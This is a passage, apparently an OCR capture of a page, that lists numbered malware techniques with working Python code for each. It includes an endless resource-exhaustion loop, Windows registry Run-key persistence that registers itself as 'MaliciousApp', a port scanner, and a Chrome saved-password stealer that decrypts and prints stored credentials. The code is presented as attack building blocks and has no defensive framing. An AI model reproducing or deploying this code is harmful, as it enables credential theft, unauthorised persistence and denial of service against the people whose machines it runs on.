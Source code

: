 5. System Resource Abuse
```python
# CPU/Memory stress
def resource_abuse():
    while True:
        [x**2 for x in range(10000000)]
```

6. Persistence Mechanisms
```python
# Basic persistence
import winreg

def add_to_startup():
    key = winreg.HKEY_CURRENT_USER
    key_path = r"Software\Microsoft\Windows\CurrentVersion\Run"
    try:
        registry_key = winreg.OpenKey(key, key_path, 0, winreg.KEY_WRITE)
        winreg.SetValueEx(registry_key, "MaliciousApp", 0, winreg.REG_SZ, __file__)
        winreg.CloseKey(registry_key)
    except WindowsError:
        pass
```

7. Network Scanners
```python
# Basic port scanner
import socket

def port_scan(target):
    for port in range(1, 1024):
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(1)
        result = sock.connect_ex((target, port))
        if result == 0:
            print(f"Port {port} is open")
        sock.close()
```

8. Credential Harvesters
```python
# Browser password stealer
import os
import sqlite3
import win32crypt

def get_chrome_passwords():
    path = os.getenv('LOCALAPPDATA') + \
           r"\Google\Chrome\User Data\Default\Login Data"
    try:
        connection = sqlite3.connect(path)
        cursor = connection.cursor()
        cursor.execute('SELECT origin_url, username_value, password_value FROM logins')
        for row in cursor.fetchall():
            password = win32crypt.CryptUnprotectData(row[2])[1].decode()
            print(f"URL: {row[0]}\nUsername: {row[1]}\nPassword: {password}\n")
    except:
        pass
```
